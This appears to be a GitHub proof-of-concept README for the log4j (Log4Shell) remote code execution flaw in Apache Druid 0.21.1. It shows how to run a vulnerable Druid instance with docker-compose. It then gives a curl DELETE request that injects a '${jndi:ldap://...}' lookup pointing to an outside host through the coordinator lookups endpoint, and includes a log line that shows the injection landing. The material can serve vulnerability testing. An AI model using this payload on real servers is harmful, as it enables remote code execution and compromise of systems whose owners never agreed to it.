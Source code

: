 # Apache Druid log4j RCE

## vulnerable app

1. download source code
```
https://download.fastgit.org/apache/druid/archive/druid-0.21.1.zip
```
2. unzip and enter the docker dir
```
unzip druid-druid-0.21.1.zip
cd druid-druid-0.21.1/distribution/docker
```
3. start
```
docker-compose -f docker-compose.yml up
```
P.S. Druid need enough memory

## Poc

```
curl -vv -X DELETE 'http://xxxxxx:8888/druid/coordinator/v1/lookups/config/$%7bjndi:ldap:%2f%2fdruid_test.yyyyyyyy%7d'
```

Log

```
2021-12-14T15:23:26,952 WARN [qtp91273747-111] org.apache.druid.server.lookup.cache.LookupCoordinatorManager - Requested delete of tier [${jndi:ldap://localhost:1270/abc}] that does not exist!
```

I've tested it

![](1.png)
